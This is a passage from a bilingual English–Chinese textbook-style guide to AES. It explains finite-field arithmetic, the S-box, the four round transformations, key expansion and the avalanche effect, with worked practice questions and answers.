\(N_k=8\), so \(N_r=N_k+6=14\) rounds and \(N_r+1=15\) round keys. The expanded key has \(4\times15=60\) words, that is \(60\times4=240\) bytes. SubBytes runs once in each of the 14 rounds (the initial AddRoundKey has no S-box) and looks up 16 bytes each time: \(14\times16=224\) lookups.\(N_k=8\)，因此共 \(N_r=N_k+6=14\) 轮和 \(N_r+1=15\) 个轮密钥。扩展密钥有 \(4\times15=60\) 个字，即 \(60\times4=240\) 字节。SubBytes 在 14 轮中各运行一次（初始 AddRoundKey 不含 S 盒），每次查表 16 个字节：共 \(14\times16=224\) 次查表。
Q2. (Explain why) Why does AES begin and end with AddRoundKey? What would be wrong with a cipher that began with SubBytes?Q2.（解释原因）为什么 AES 以 AddRoundKey 开始并以其结束？若一个密码以 SubBytes 开始，会有什么问题？
Answer
AddRoundKey is the only stage that uses the key. SubBytes, ShiftRows and MixColumns are fixed, public, invertible maps. A keyless stage before the first AddRoundKey can be undone by an attacker who knows only the plaintext, and a keyless stage after the last one can be undone from the ciphertext, so neither adds security. The first and the last operation must therefore be keyed.AddRoundKey 是唯一使用密钥的阶段。SubBytes、ShiftRows 和 MixColumns 都是固定、公开且可逆的映射。位于第一个 AddRoundKey 之前的无密钥阶段，只知道明文的攻击者即可撤销；位于最后一个之后的无密钥阶段，则可由密文撤销，因此两者都不增加安全性。因此，第一个和最后一个操作都必须带密钥。
思路：没有密钥的步骤放在最前或最后，攻击者可以直接"剥掉"。
Q3. (Compare) Give four differences between AES and DES.Q3.（比较）给出 AES 与 DES 之间的四个差异。
Answer
(1) Block size: 128 bits for AES, 64 bits for DES. (2) Key size: 128, 192 or 256 bits for AES, 56 bits for DES. (3) Structure: AES is a substitution–permutation network that transforms the whole State in each of its 10, 12 or 14 rounds; DES is a Feistel cipher that modifies half the block in each of 16 rounds. (4) S-boxes: AES has one invertible 8-bit to 8-bit S-box built from the GF(\(2^8\)) inverse; DES has eight 6-bit to 4-bit tables. Further differences: DES has initial and final permutations, AES has none; DES decryption reuses the encryption structure with reversed subkeys, whereas AES decryption needs different inverse transformations.（1）分组长度：AES 为 128 位，DES 为 64 位。（2）密钥长度：AES 为 128、192 或 256 位，DES 为 56 位。（3）结构：AES 是代换–置换网络，在其 10、12 或 14 轮中的每一轮都变换整个状态数组；DES 是 Feistel 密码，在 16 轮中的每一轮只改变半个分组。（4）S 盒：AES 有一个由 GF(\(2^8\)) 中的逆构造的可逆 8 位到 8 位 S 盒；DES 有八个 6 位到 4 位的表。此外，DES 有初始置换和末尾置换，而 AES 没有；DES 解密复用加密结构，只是子密钥顺序相反，而 AES 解密则需要不同的逆变换。
Finite-Field Arithmetic for AES ★★AES 的有限域运算
Goal. Add and multiply bytes in GF(\(2^8\)) by hand, using XOR and the doubling rule, and explain why AES does not use arithmetic modulo 256.目标。 用 XOR 和倍乘规则，手工完成 GF(\(2^8\)) 中字节的加法和乘法，并解释为什么 AES 不使用模 256 的算术。
Step 1: what the field is for第 1 步：这个域的用途
In words: AES treats each byte as a number in a small system where one can add, multiply and divide, and every result is again one byte.用文字表述：AES 把每个字节看作一个小系统中的数，可以做加、乘和除，并且每个结果仍是一个字节。
AES treats each byte as an element of the finite field（有限域）GF(\(2^8\)). A field has addition, subtraction, multiplication and division, and every nonzero element has a multiplicative inverse（乘法逆元）. GF(\(2^8\)) has exactly 256 elements, so every byte value is used. The theory is in Chapter 5.AES 把每个字节看作 GF(\(2^8\)) 中的一个元素。它是有限域，有加法、减法、乘法和除法，并且每个非零元都有乘法逆元。GF(\(2^8\)) 恰好有 256 个元素，因此每个字节值都会用到。相关理论见第 5 章。
The integers modulo 256 are not a field. The number 256 is not prime. An even number \(a\) has \(\gcd(a,256)\ge2\) and so no inverse. The S-box needs an inverse for every nonzero byte, and MixColumns needs an invertible matrix.模 256 的整数不构成域，因为 256 不是素数。偶数 \(a\) 有 \(\gcd(a,256)\ge2\)，因此没有逆元。S 盒需要每个非零字节都有逆元，而 MixColumns 需要一个可逆矩阵。
Step 2: the four operations第 2 步：四种运算
- Representation. The byte with bits \(b_7\) (leftmost) down to \(b_0\) (rightmost) is the polynomial \(b_7x^7+\dots+b_1x+b_0\). Its coefficients are 0 or 1, and \(x\) is the polynomial variable. Example: {57} is \(x^6+x^4+x^2+x+1\).表示。 从 \(b_7\)（最左）到 \(b_0\)（最右）各位组成的字节，即多项式 \(b_7x^7+\dots+b_1x+b_0\)。它的系数为 0 或 1，\(x\) 是多项式变量。例如：{57} 即 \(x^6+x^4+x^2+x+1\)。
- Addition and subtraction are the same operation: bitwise XOR, with no carries. Example: {57} + {83} = {D4}, not the integer sum.加法和减法是同一种运算：按位 XOR，没有进位。例如：{57} + {83} = {D4}，而不是整数相加的结果。
- Multiplication is polynomial multiplication with coefficients modulo 2, followed by reduction modulo the irreducible polynomial（不可约多项式）\(m(x)=x^8+x^4+x^3+x+1\), which is {11B}. Divide by \(m(x)\) and keep the remainder.乘法是系数按模 2 的多项式乘法，再对不可约多项式 \(m(x)=x^8+x^4+x^3+x+1\) 取模化简，该多项式即 {11B}。用 \(m(x)\) 去除，并保留余式。
- Division is multiplication by the inverse. AES defines \(\{00\}^{-1}=\{00\}\).除法就是乘以逆元。AES 对 \(\{00\}^{-1}=\{00\}\) 作了定义。
Only multiplication by \(x\), the byte {02}, must be done by hand. Every other product is built from it.只有乘以 \(x\)（即字节 {02}）需要手工计算。其他所有乘积都由它构造出来。
How to do it by hand: 1. Write the constant as a XOR of powers of {02}: {01}, {02}, {04}, {08}, {10}, ... 2. Double the byte repeatedly. After each doubling, XOR {1B} if a 1 was shifted out. 3. XOR the doublings that the constant needs.手工做法：1. 把常数写成 {02} 各次幂的 XOR：{01}、{02}、{04}、{08}、{10}、……2. 反复倍乘。每次倍乘后，若移出了一个 1，则与 {1B} 做 XOR。3. 把常数所需的各个倍乘结果做 XOR。
Practice练习
Q1. (Calculation) Show that {CA} is the multiplicative inverse of {53}.Q1.（计算）证明 {CA} 是 {53} 的乘法逆元。
Answer
Write \(\{CA\}=\{80\}\oplus\{40\}\oplus\{08\}\oplus\{02\}\) and double {53} seven times: {53}, {A6}, {57}, {AE}, {47}, {8E}, {07}, {0E} are {53} times {01}, {02}, {04}, {08}, {10}, {20}, {40}, {80} (for example {A6}·{02} = {4C} ⊕ {1B} = {57}). Then \(\{53\}\cdot\{CA\}=\{0E\}\oplus\{07\}\oplus\{AE\}\oplus\{A6\}=\{01\}\), so {CA} is the inverse.写出 \(\{CA\}=\{80\}\oplus\{40\}\oplus\{08\}\oplus\{02\}\)，并对 {53} 倍乘七次：{53}、{A6}、{57}、{AE}、{47}、{8E}、{07}、{0E} 分别是 {53} 乘以 {01}、{02}、{04}、{08}、{10}、{20}、{40}、{80} 的结果（例如 {A6}·{02} = {4C} ⊕ {1B} = {57}）。然后 \(\{53\}\cdot\{CA\}=\{0E\}\oplus\{07\}\oplus\{AE\}\oplus\{A6\}=\{01\}\)，因此 {CA} 即为其逆元。
Q2. (Short) Compute {57} + {83} in GF(\(2^8\)). Why is the answer not {DA}, the sum of the two numbers mod 256?Q2.（简答）计算 GF(\(2^8\)) 中的 {57} + {83}。为什么答案不是 {DA}（即两数模 256 之和）？
Answer
Addition is XOR: 0101 0111 ⊕ 1000 0011 = 1101 0100 = {D4}. In GF(\(2^8\)) coefficients are added mod 2, so there are no carries; {DA} would be the ordinary sum \(87+131=218\).加法即异或：0101 0111 ⊕ 1000 0011 = 1101 0100 = {D4}。在 GF(\(2^8\)) 中，系数按模 2 相加，因此没有进位；{DA} 则是普通求和的结果 \(87+131=218\)。
The Four Round Transformations ★★★四种轮变换
Goal. Carry out SubBytes, ShiftRows, MixColumns and AddRoundKey by hand on a State, including an S-box lookup and a MixColumns column. State what each stage contributes to the security.目标。 对一个状态数组手工完成 SubBytes、ShiftRows、MixColumns 和 AddRoundKey，包括一次 S 盒查表和一列 MixColumns 计算。说明每个步骤对安全性的贡献。
The figure shows one full round. It has 16 parallel S-box lookups, a rotation of the rows, a fixed matrix applied to each column, and a XOR with the 16-byte round key.图中是一整轮的过程。它包括 16 次并行的 S 盒查表、行的循环移位、对每一列作用一个固定矩阵，以及与 16 字节轮密钥做 XOR。


Step 1: SubBytes第 1 步：SubBytes
In words: SubBytes replaces every byte of the State, independently, by the entry of one fixed table, the S-box.用文字表述：SubBytes 把状态数组中的每个字节独立地替换为一张固定表（即 S 盒）中的对应项。
The S-box（S 盒）is a fixed 16 by 16 table that contains a permutation of all 256 byte values. The left four bits of the byte select the row \(y\). The right four bits select the column \(x\). Example: {95} lies in row 9, column 5. The entry there is {2A}, so {95} becomes {2A}.S 盒是一张固定的 16×16 表，包含全部 256 个字节值的一个置换。字节的左 4 位选择行 \(y\)，右 4 位选择列 \(x\)。例如：{95} 位于第 9 行、第 5 列，该处的值为 {2A}，所以 {95} 变为 {2A}。
S-box
y\x 0 1 2 3 4 5 6 7 8 9 A B C D E F
0 63 7C 77 7B F2 6B 6F C5 30 01 67 2B FE D7 AB 76
1 CA 82 C9 7D FA 59 47 F0 AD D4 A2 AF 9C A4 72 C0
2 B7 FD 93 26 36 3F F7 CC 34 A5 E5 F1 71 D8 31 15
3 04 C7 23 C3 18 96 05 9A 07 12 80 E2 EB 27 B2 75
4 09 83 2C 1A 1B 6E 5A A0 52 3B D6 B3 29 E3 2F 84
5 53 D1 00 ED 20 FC B1 5B 6A CB BE 39 4A 4C 58 CF
6 D0 EF AA FB 43 4D 33 85 45 F9 02 7F 50 3C 9F A8
7 51 A3 40 8F 92 9D 38 F5 BC B6 DA 21 10 FF F3 D2
8 CD 0C 13 EC 5F 97 44 17 C4 A7 7E 3D 64 5D 19 73
9 60 81 4F DC 22 2A 90 88 46 EE B8 14 DE 5E 0B DB
A E0 32 3A 0A 49 06 24 5C C2 D3 AC 62 91 95 E4 79
B E7 C8 37 6D 8D D5 4E A9 6C 56 F4 EA 65 7A AE 08
C BA 78 25 2E 1C A6 B4 C6 E8 DD 74 1F 4B BD 8B 8A
D 70 3E B5 66 48 03 F6 0E 61 35 57 B9 86 C1 1D 9E
E E1 F8 98 11 69 D9 8E 94 9B 1E 87 E9 CE 55 28 DF
F 8C A1 89 0D BF E6 42 68 41 99 2D 0F B0 54 BB 16
InvSubBytes（逆字节替换）uses the inverse S-box, which maps each output back to its input: {2A} goes back to {95}. The S-box is invertible but not its own inverse: S({95}) = {2A}, while InvS({95}) = {AD}.InvSubBytes 使用逆 S 盒，它把每个输出映回它的输入：{2A} 映回 {95}。S 盒是可逆的，但它不是自己的逆：S({95}) = {2A}，而 InvS({95}) = {AD}。
EA 04 65 85 87 F2 4D 97
83 45 5D 96 EC 6E 4C 90
5C 33 98 B0 -> 4A C3 46 E7
F0 2D AD C5 8C D8 95 A6
The S-box is built in three steps. The exam may ask for the construction or for one value from the definition.S 盒分三步构造。考试可能会问构造方法，也可能要求根据定义计算某一个值。
- Fill the table with {00}, {01}, ..., {FF} in order, row by row.按行的顺序，依次把 {00}、{01}、……、{FF} 填入表中。
- Replace every byte by its multiplicative inverse in GF(\(2^8\)). The byte {00} stays {00}.把每个字节换成它在 GF(\(2^8\)) 中的乘法逆元。字节 {00} 保持为 {00}。
- Apply an affine transformation（仿射变换）to the bits of each byte.对每个字节的各位做一个仿射变换。
The nonlinearity of the S-box comes from the multiplicative inverse. The constant {63} removes fixed points (\(S(a)=a\)) and opposite fixed points (\(S(a)=\bar a\), where \(\bar a\) is the bitwise complement of \(a\)). Without a nonlinear S-box every stage would be affine over GF(2), and a few known plaintext–ciphertext pairs would let an attacker solve for the whole cipher.S 盒的非线性来自乘法逆元。常数 {63} 用来消除不动点（\(S(a)=a\)）和反不动点（\(S(a)=\bar a\)，其中 \(\bar a\) 是 \(a\) 的按位取反）。若没有非线性的 S 盒，每个步骤在 GF(2) 上都是仿射的，攻击者只需少数已知明密文对，就能解出整个密码。
Step 2: ShiftRows第 2 步：ShiftRows
In words: ShiftRows turns each row by a different number of positions, so that bytes move from one column to another.用文字表述：ShiftRows 把每一行按不同的位置数循环移动，使字节从一列移到另一列。
Row 0 stays. Row \(r\) is rotated left by \(r\) bytes, so row 1 moves by 1, row 2 by 2 and row 3 by 3. InvShiftRows rotates right by the same amounts.第 0 行保持不动。第 \(r\) 行向左循环移动 \(r\) 个字节，因此第 1 行移动 1 个字节，第 2 行移动 2 个字节，第 3 行移动 3 个字节。InvShiftRows 则向右循环移动相同的位数。
87 F2 4D 97 87 F2 4D 97
EC 6E 4C 90 6E 4C 90 EC
4A C3 46 E7 -> 46 E7 4A C3
8C D8 95 A6 A6 8C D8 95
ShiftRows matters more than it looks. SubBytes works on single bytes, and MixColumns and AddRoundKey work on one column at a time. ShiftRows sends the four bytes of every column to four different columns. Without it the columns would never influence one another, and AES would be four independent 32-bit ciphers.ShiftRows 的作用比看上去更重要。SubBytes 逐个作用于单个字节，而 MixColumns 和 AddRoundKey 每次只作用于一列。ShiftRows 把每一列的四个字节分别送到四个不同的列中。没有它，各列之间就永远不会相互影响，AES 就会变成四个彼此独立的 32 位密码。


Step 3: MixColumns第 3 步：MixColumns
In words: MixColumns replaces each column by a mixture in which every output byte depends on all four input bytes of that column.用文字表述：MixColumns 把每一列替换为一个混合结果，其中每个输出字节都依赖于该列的全部四个输入字节。
How to do it by hand: 1. For each of the four column bytes compute its double, using the rule of Section 6.2. 2. Compute its triple: the double XOR the byte itself. 3. For each output row pick the products that the matrix row asks for (02, 03, 01, 01 in some order). 4. XOR the four values.手工做法：1. 对该列的四个字节，分别按第 6.2 节的规则计算其两倍。2. 计算其三倍：两倍与该字节本身做 XOR。3. 对每个输出行，取矩阵该行所需的乘积（系数为 02、03、01、01 的某种排列）。4. 把四个值做 XOR。
For InvMixColumns split the constants: \(\{09\}=\{08\}\oplus\{01\}\), \(\{0B\}=\{08\}\oplus\{02\}\oplus\{01\}\), \(\{0D\}=\{08\}\oplus\{04\}\oplus\{01\}\) and \(\{0E\}=\{08\}\oplus\{04\}\oplus\{02\}\). Multiply by each term with repeated doubling.对于 InvMixColumns，把常数拆开：\(\{09\}=\{08\}\oplus\{01\}\)、\(\{0B\}=\{08\}\oplus\{02\}\oplus\{01\}\)、\(\{0D\}=\{08\}\oplus\{04\}\oplus\{01\}\) 和 \(\{0E\}=\{08\}\oplus\{04\}\oplus\{02\}\)。对每一项都用反复倍乘来计算。
The same State as in the ShiftRows example, all four columns:与 ShiftRows 例子中相同的状态数组，包括全部四列：
87 F2 4D 97 47 40 A3 4C
6E 4C 90 EC 37 D4 70 9F
46 E7 4A C3 -> 94 E4 3A 42
A6 8C D8 95 ED A5 A6 BC
The coefficients {01}, {02} and {03} were chosen for speed: a product costs at most a shift and a XOR. The inverse coefficients are costlier. This is accepted, because the modes CFB and OFB (Chapter 7) and the MACs (Chapter 12) use only the encryption direction.系数 {01}、{02} 和 {03} 是为速度而选的：每次乘积至多需要一次移位和一次 XOR。逆变换的系数代价更高。这一点可以接受，因为 CFB 和 OFB 工作模式（第 7 章）以及 MAC（第 12 章）只使用加密方向。
Step 4: AddRoundKey第 4 步：AddRoundKey
In words: AddRoundKey XORs the State with the round key, byte by byte; it is the only stage that uses the key.用文字表述：AddRoundKey 把状态数组与轮密钥逐字节做 XOR；它是唯一使用密钥的步骤。
The 128-bit State is XORed with the 128-bit round key. In round \(r\), column \(j\) of the State is XORed with the key word \(w[4r+j]\) (Section 6.4). The inverse is the same operation, because XOR undoes itself.128 位的状态数组与 128 位的轮密钥做 XOR。在第 \(r\) 轮中，状态数组的第 \(j\) 列与密钥字 \(w[4r+j]\) 做 XOR（见第 6.4 节）。逆操作与它相同，因为 XOR 自己就能抵消。
47 40 A3 4C AC 19 28 57 EB 59 8B 1B
37 D4 70 9F ⊕ 77 FA D1 5C = 40 2E A1 C3
94 E4 3A 42 66 DC 29 00 F2 38 13 42
ED A5 A6 BC F3 21 41 6A 1E 84 E7 D6
| Stage阶段 | Acts on作用对象 | Kind类型 | Role作用 |
|---|---|---|---|
| SubBytes | each byte alone逐字节单独作用 | nonlinear substitution (S-box)非线性代换（S 盒） | confusion混淆 |
| ShiftRows | each row逐行 | permutation of byte positions字节位置的置换 | moves bytes between columns在列之间移动字节 |
| MixColumns | each column逐列 | linear substitution over GF(\(2^8\)) | diffusion within a column列内扩散 |
| AddRoundKey | whole State整个状态数组 | XOR with the round key与轮密钥异或 | only key-dependent stage唯一依赖密钥的阶段 |
Practice练习
Q1. (Calculation) Given that \(\{53\}^{-1}=\{CA\}\), compute S({53}) with the affine transformation and check it in the table.Q1.（计算）已知 \(\{53\}^{-1}=\{CA\}\)，用仿射变换计算 S({53})，并在表中核对。
Answer
{CA} = 11001010. Its left rotations by 1, 2, 3 and 4 bits are {95}, {2B}, {56} and {AC}. Then {CA} ⊕ {95} ⊕ {2B} ⊕ {56} ⊕ {AC} ⊕ {63} = {ED} (stepwise: {5F}, {74}, {22}, {8E}, {ED}). The table gives {ED} in row 5, column 3.{CA} = 11001010。它循环左移 1、2、3 和 4 位分别得到 {95}、{2B}、{56} 和 {AC}。于是 {CA} ⊕ {95} ⊕ {2B} ⊕ {56} ⊕ {AC} ⊕ {63} = {ED}（逐步结果：{5F}、{74}、{22}、{8E}、{ED}）。表中第 5 行、第 3 列的条目为 {ED}。
Q2. (Calculation) Apply MixColumns to the column \((A1,B2,C3,D4)\) and check the result with InvMixColumns. Then change {A1} to {A3} and count how many output bits change.Q2.（计算）对列 \((A1,B2,C3,D4)\) 应用 MixColumns，并用 InvMixColumns 核对结果。然后将 {A1} 改为 {A3}，统计输出中有多少比特发生改变。
Answer
First byte: {02}·{A1} = {42} ⊕ {1B} = {59}; {03}·{B2} = {B2} ⊕ {64} ⊕ {1B} = {CD}; so \(s'_0=\{59\}\oplus\{CD\}\oplus\{C3\}\oplus\{D4\}=\{83\}\). The other bytes follow the same way and the output is \((83,54,E9,3A)\). InvMixColumns of this column returns \((A1,B2,C3,D4)\). For \((A3,B2,C3,D4)\) the output is \((87,56,EB,3C)\). The outputs differ by {04}, {02}, {02}, {06}, that is \(1+1+1+2=5\) bits, although the input differs in one bit: a single changed byte affects all four bytes of the column.第一个字节：{02}·{A1} = {42} ⊕ {1B} = {59}；{03}·{B2} = {B2} ⊕ {64} ⊕ {1B} = {CD}；因此 \(s'_0=\{59\}\oplus\{CD\}\oplus\{C3\}\oplus\{D4\}=\{83\}\)。其余字节同理，输出为 \((83,54,E9,3A)\)。对该列进行 InvMixColumns 运算可得到 \((A1,B2,C3,D4)\)。对于 \((A3,B2,C3,D4)\)，输出为 \((87,56,EB,3C)\)。两个输出之差为 {04}、{02}、{02}、{06}，即 \(1+1+1+2=5\) 比特，而输入仅相差一个比特：可见，一个被改变的字节会影响该列的全部四个字节。
Q3. (Explain why) Why does AES need ShiftRows although MixColumns already mixes bytes? How many bytes does ShiftRows move?Q3.（解释原因）既然 MixColumns 已经混合了字节，为什么 AES 仍需要 ShiftRows？ShiftRows 移动了多少个字节？
Answer
SubBytes works on single bytes, and MixColumns and AddRoundKey work on one column at a time, so without ShiftRows the columns would never influence one another: changing one input byte would change only the four bytes of its column in the output, and AES would be four independent 32-bit ciphers. ShiftRows rotates the rows by 0, 1, 2 and 3 bytes, sending the four bytes of a column to four different columns. It moves 12 of the 16 bytes; row 0 stays.SubBytes 逐字节工作，而 MixColumns 与 AddRoundKey 每次只处理一列。因此，若没有 ShiftRows，各列之间永远不会相互影响：改变一个输入字节，输出中只会改变其所在列的四个字节，AES 就会成为四个相互独立的 32 位密码。ShiftRows 将各行分别循环移动 0、1、2 和 3 个字节，使一列中的四个字节分别进入四个不同的列。它移动了 16 个字节中的 12 个；第 0 行保持不变。
Key Expansion ★★密钥扩展
Goal. Compute words of the expanded key for AES-128 by hand, derive the round constants, and say how the schedule changes for 192-bit and 256-bit keys.目标。 手工计算 AES-128 扩展密钥的各个字，推导轮常数，并说明 192 位和 256 位密钥的密钥扩展方案如何变化。
Step 1: the rule for new words第 1 步：新字的生成规则
In words: each new word is the word four places back XORed with the previous word; every fourth word first scrambles the previous word.用文字表述：每个新字是它前面第四个字与前一个字做 XOR 的结果；每隔四个字，先对前一个字做变换。
Key expansion（密钥扩展）turns the 16-byte key into a list of 44 words (176 bytes) for AES-128. The key fills \(w[0],\dots,w[3]\). The other words are produced four at a time.密钥扩展把 16 字节的密钥扩展为 AES-128 的 44 个字（共 176 字节）。密钥占满 \(w[0],\dots,w[3]\)。其余的字每次生成四个。
KeyExpansion(byte key[16], word w[44])
for i = 0 to 3:
w[i] = (key[4i], key[4i+1], key[4i+2], key[4i+3])
for i = 4 to 43:
temp = w[i-1]
if i mod 4 = 0:
temp = SubWord(RotWord(temp)) XOR Rcon[i/4]
w[i] = w[i-4] XOR temp
Step 2: the function g第 2 步：函数 g
The function \(g\) has three parts.函数 \(g\) 包含三个部分。
- RotWord rotates a word one byte to the left. A word has four bytes \(B_0\), \(B_1\), \(B_2\), \(B_3\), and RotWord turns \([B_0,B_1,B_2,B_3]\) into \([B_1,B_2,B_3,B_0]\).RotWord 把一个字向左循环移动一个字节。一个字有四个字节 \(B_0\)、\(B_1\)、\(B_2\)、\(B_3\)，RotWord 把 \([B_0,B_1,B_2,B_3]\) 变为 \([B_1,B_2,B_3,B_0]\)。
- SubWord applies the S-box to each of the four bytes.SubWord 对四个字节中的每一个都应用 S 盒。
- The result is XORed with the round constant（轮常数）\(\text{Rcon}[j]=(RC[j],0,0,0)\). This changes only the leftmost byte.结果再与轮常数 \(\text{Rcon}[j]=(RC[j],0,0,0)\) 做 XOR。这只改变最左边的字节。
Do not mix up the names. SubBytes applies the S-box to the 16 bytes of the State. SubWord applies it to the 4 bytes of one word. ShiftRows rotates the rows of the State by 0 to 3 bytes. RotWord rotates one word by one byte.不要混淆这些名称。SubBytes 对状态数组的 16 个字节应用 S 盒。SubWord 则对一个字的 4 个字节应用它。ShiftRows 把状态数组的各行循环移动 0 到 3 个字节。RotWord 把一个字循环移动一个字节。
The round constants differ from round to round. They remove the symmetry between the ways in which the round keys of different rounds are generated. SubWord adds nonlinearity, so differences between round keys cannot be computed from differences between keys alone.各轮的轮常数互不相同。它们消除了不同轮轮密钥生成方式之间的对称性。SubWord 引入了非线性，因此仅由密钥之间的差异，无法推出轮密钥之间的差异。
Step 3: longer keys第 3 步：更长的密钥
For \(N_k=6\) or 8 words the rule becomes \(w[i]=w[i-N_k]\oplus\text{temp}\), where temp is \(w[i-1]\) or its transformed version. The function \(g\) with \(\text{Rcon}[i/N_k]\) is applied when \(i\bmod N_k=0\). For \(N_k=8\) only, a plain SubWord (no rotation, no Rcon) is applied to \(w[i-1]\) when \(i\bmod 8=4\). The expanded key has \(4(N_r+1)\) words: 52 for AES-192 and 60 for AES-256.对于 \(N_k=6\) 或 8 个字的密钥，规则变为 \(w[i]=w[i-N_k]\oplus\text{temp}\)，其中 temp 为 \(w[i-1]\) 或其变换后的结果。函数 \(g\)（带 \(\text{Rcon}[i/N_k]\)）在 \(i\bmod N_k=0\) 时应用。仅对 \(N_k=8\) 而言，当 \(i\bmod 8=4\) 时，对 \(w[i-1]\) 应用一个普通的 SubWord（不做循环移位，也不加 Rcon）。扩展密钥共有 \(4(N_r+1)\) 个字：AES-192 为 52 个，AES-256 为 60 个。
Example for AES-256: \(g\) is applied for \(i=8,16,\dots,56\), that is 7 times. The extra SubWord is applied for \(i=12,20,\dots,52\), that is 6 times.AES-256 的例子：\(g\) 应用于 \(i=8,16,\dots,56\)，即 7 次。额外的 SubWord 应用于 \(i=12,20,\dots,52\)，即 6 次。
Practice练习
Q1. (Calculation) Compute \(w[4],\dots,w[7]\) for the 128-bit key of all ones (every byte {FF}). Use S({FF}) = {16}.Q1. （计算）对于全为 1 的 128 位密钥（每个字节均为 {FF}），计算 \(w[4],\dots,w[7]\)。取 S({FF}) = {16}。
Answer
\(w[0],\dots,w[3]\) are all FFFFFFFF. For \(i=4\): RotWord(FFFFFFFF) = FFFFFFFF, SubWord gives 16161616, and XOR Rcon[1] = 01000000 gives 17161616. So \(w[4]\) = FFFFFFFF ⊕ 17161616 = E8E9E9E9. Then \(w[5]=w[4]\oplus w[1]\) = 17161616, \(w[6]=w[5]\oplus w[2]\) = E8E9E9E9 and \(w[7]=w[6]\oplus w[3]\) = 17161616.\(w[0],\dots,w[3]\) 均为 FFFFFFFF。对于 \(i=4\)：RotWord(FFFFFFFF) = FFFFFFFF，SubWord 得到 16161616，再与 Rcon[1] = 01000000 异或得到 17161616。因此 \(w[4]\) = FFFFFFFF ⊕ 17161616 = E8E9E9E9。然后 \(w[5]=w[4]\oplus w[1]\) = 17161616，\(w[6]=w[5]\oplus w[2]\) = E8E9E9E9，\(w[7]=w[6]\oplus w[3]\) = 17161616。
Q2. (Calculation) Derive \(RC[9]\) and \(RC[10]\) and explain why Rcon is used.Q2. （计算）推导 \(RC[9]\) 和 \(RC[10]\)，并解释为什么要使用 Rcon。
Answer
\(RC[8]=\{80\}\). Doubling {80} shifts out a 1 and leaves 00, so \(RC[9]=\{00\}\oplus\{1B\}=\{1B\}\). Doubling {1B} = 00011011 gives {36} with no bit lost, so \(RC[10]=\{36\}\). Rcon differs in every round, so the function \(g\) is not the same in all rounds; this removes the symmetry between the ways in which round keys of different rounds are generated.\(RC[8]=\{80\}\)。{80} 乘以 {02} 时移出一个 1，剩下 00，因此 \(RC[9]=\{00\}\oplus\{1B\}=\{1B\}\)。{1B} = 00011011 乘以 {02} 得到 {36}，没有比特被移出，因此 \(RC[10]=\{36\}\)。Rcon 在每一轮都不同，所以函数 \(g\) 在各轮中并不相同；这消除了不同轮的轮密钥生成方式之间的对称性。
A Worked Example and the Avalanche Effect ★例题与雪崩效应
A good cipher shows the avalanche effect（雪崩效应）: a small change in the plaintext or the key changes a large part of the ciphertext. The ideal is about half of the bits, 64 of 128. Two random strings differ in about half of their positions, and a change of almost all bits is as predictable as a change of almost none.一个好的密码应表现出雪崩效应：明文或密钥的微小改变，会使密文的很大一部分随之改变。理想情况下约一半的位发生改变，即 128 位中的 64 位。两个随机串大约有一半位置不同；而几乎全部位都改变，和几乎没有位改变一样容易预测。
The table counts the bits that differ after each round. Either the eighth plaintext bit or the eighth key bit is flipped. The example uses the plaintext 0123456789abcdeffedcba9876543210, and the key 0f1571c947d9e8590cb7add6af7f6798.下表统计每一轮之后不同的位数。分别翻转第 8 位明文或第 8 位密钥之一。示例使用的明文为 0123456789abcdeffedcba9876543210，密钥为 0f1571c947d9e8590cb7add6af7f6798。
| Round轮 | 0 | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10 |
|---|---|---|---|---|---|---|---|---|---|---|---|
| Plaintext bit flipped翻转的明文比特 | 1 | 20 | 58 | 59 | 61 | 68 | 64 | 67 | 65 | 61 | 58 |
| Key bit flipped翻转的密钥比特 | 1 | 22 | 58 | 67 | 63 | 81 | 70 | 74 | 67 | 59 | 53 |
After one round about 20 bits differ. After two rounds the difference is close to half, and it stays there. AES therefore reaches the ideal avalanche after two rounds. DES needs three.经过一轮后，约有 20 位不同。经过两轮后，差异接近一半，并且保持在这一水平。因此，AES 在两轮后即达到理想的雪崩效应。DES 则需要三轮。
Practice练习
